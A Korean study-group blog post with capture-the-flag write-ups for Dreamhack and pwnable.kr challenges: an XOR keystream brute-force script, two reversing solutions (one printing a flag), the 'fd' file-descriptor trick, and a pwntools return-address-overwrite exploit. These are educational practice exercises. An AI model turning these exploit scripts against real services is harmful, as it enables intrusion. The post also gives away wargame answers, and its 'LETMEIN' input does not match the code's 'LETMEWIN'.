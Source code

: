 ```yaml
---
title: "[CAUTION] 스터디 - 10"
categories:
  - study
tags:
  - dreamhack
  - pwnable
toc: true
toc_sticky: true
toc_label: "스터디 - 10"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/caution2.jpg
---
```


💡 Caution 스터디 10회차
{: .notice--warning}

# 암호학 - 1

**[CS448](https://dreamhack.io/wargame/challenges/452/)**
    
```python
def encrypt(s, k):
    res = ""
    if k <= len(s):
        _print("[!] key shold be larger then len(pt) for safty!!")
        return ""
    for i, c in enumerate(s):
        enc = (get_random_u8() + key * i) % 0xff
        enc = ord(c) ^ enc
        res += hex(enc)[2:].rjust(2, "0")
    return res
```

위의 코드와 같은 방식으로 암호화를 수행한다.

취약점이 발생하는 부분은 %0xff 이다.

```key stream : (get_random_u8() + key * i) % 0xff``` 부분을 잘 생각해 보면 그 결과로 0~254 까지의 결과가 나오는 것을 알 수 있다.

이것이 왜 문제인지 생각해보자. 임의의 평문 'X'에 대해서 암호화를 통해서 나올 수 있는 모든 결과는 8bit 결과이므로 00000000 ~ 11111111 로 총 256개이다.

근데 현재 키 스트림은 0~254까지의 범위를 가지므로 255개의 키 스트림이 있다.

즉, 임의의 문자 'X'에 대해서 계속 암호화를 수행하면 'X' xor '11111111' 의 결과가 누락되게 된다.

그러면 우리는 하나의 글자에 대해서 계속 암호화를 수행하면서 어떠한 결과가 나왔는지를 전부 기록한 뒤에, 0-255중에 한 번도 안나온 결과를 찾으면 된다. 그러면 그 숫자가 바로 
'X' xor '11111111'이 되는 것이다.

이를 코드로 구현하면 다음과 같다. 모든 flag 하나하나에 대해서 bruteforce를 하다보니, 결과가 나오는데 시간이 꽤 걸린다. 

```python
from pwn import *


p = remote('host1.dreamhack.games',10819)

key = 255

p.sendlineafter('>> ','3')
p.sendlineafter('key >> ','255')
p.recvuntil('result : ')

enc_flag = p.recvline()
flag_len = len(enc_flag) // 2
flag_set = [list(range(256)) for _ in range(flag_len)]
flag = [0 for x in range(flag_len)]

while True:
    p.sendlineafter('>> ','3')
    p.sendlineafter('key >> ','255')
    p.recvuntil('result : ')
    
    enc_flag = bytes.fromhex(p.recvline()[:-1].decode())

    for i in range(flag_len):
        # flag_set에서 찾는 글자 하나씩 삭제
        if flag_set[i].count(enc_flag[i]) == 1:
            flag_set[i].remove(enc_flag[i])
        
        # 한개 남은 결과에 255 xor 하면 원래 글자
        if len(flag_set[i]) == 1:
            flag[i] = chr(flag_set[i][-1] ^ key )

    print([len(x) for x in flag_set])    
    if 0 not in flag:
        break
            
print(''.join(flag))

```


![image](https://user-images.githubusercontent.com/33647663/167166094-8731c708-f5ae-4399-b1f7-a965f2af6329.png)


# 리버싱 - 1
**[rev-basic-0](https://dreamhack.io/wargame/challenges/14/)**

리버싱 기초문제

IDA로 열면 바로 strcmp가 보임

![image](https://user-images.githubusercontent.com/33647663/167167482-413fd717-1ab8-453a-84bd-3545fbd6307d.png)


# 리버싱 - 2
**[rev-basic-2](https://dreamhack.io/wargame/challenges/16/)**

![image](https://user-images.githubusercontent.com/33647663/167168558-de394732-9760-4364-b18b-12707b202817.png)


각각의 input(a1)에 대해서, aC[] 배열과 비교를 하고 있다.
총 길이는 18글자 이며, aC배열은 다음과 같다.

![image](https://user-images.githubusercontent.com/33647663/167168899-099070a1-4fb3-4078-bc26-6c82a93ac5ae.png)

데이터 타입을 array로 바꾸면 더 보기 쉽다.

![image](https://user-images.githubusercontent.com/33647663/167169712-de730a70-d4b6-44e2-8287-d016aecbc849.png)

마지막 null문자를 제외하면 총 17글자로 
flag는 'Comp4re_the_arr4y'이다.


# 시스템 - 1

**[pwnable.kr](https://pwnable.kr/play.php) [fd]**

문제의 코드는 다음과 같다.

```c
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;

}
```

argv[1] - 0x1234 값을 fd로 하여 해당 fd로 데이터를 읽어온다.

stdin 이 fd 0 이므로 argv[1]로 0x1234인 4660 데이터를 넘겨준다.

넘겨주면 사용자의 입력값을 기다리게 되고, 이때 비교 문자열인 'LETMEIN'을 입력해 주면 flag를 획득할 수 있다.

![image](https://user-images.githubusercontent.com/33647663/167191157-e2c61f67-9c03-48e7-baca-1b795ae87d48.png)



# 시스템 - 2

**[Return Address Overwrite](https://dreamhack.io/wargame/challenges/351/)**
메인함수를 시작할때 스택 상태는 아래와 같다


![image](https://user-images.githubusercontent.com/33647663/167182991-88bc7d37-2f97-4069-aae8-dffe211841a0.png)

그림으로 표현해보면 스택 상태는 다음과 같다

![image](https://user-images.githubusercontent.com/33647663/167183968-75242f51-75c8-469a-b592-59392ff0ed25.png)

buf에 입력 받을때 bof 취약점이 있으니, 56byte는 더미로 채워주고 8 byte를 get_shell() 함수의 주소를 입력하여 익스플로잇 한다.

get_shell()의 주소는 다음과 같다.

![image](https://user-images.githubusercontent.com/33647663/167184372-2064a6d2-7f00-4bf1-b8d0-1ee0331d7bcf.png)

쉘 코드는 다음과 같이 작성해 준다.

```python
from pwn import *

p = remote('host1.dreamhack.games',21598)
context.log_level= 0

# get_shell() : 0x00000000004006aa
p.recvuntil(b'Input: ')
payload = 'A' * 0x30
payload += 'B' * 8
payload += '\xaa\x06\x40\x00\x00\x00\x00\x00'

p.sendline(payload)
p.interactive()
```


실행하면 다음과 같이 플래그를 획득할 수 있다.

![image](https://user-images.githubusercontent.com/33647663/167182774-e216d7eb-0a9c-4465-b75f-5b9cc969751b.png)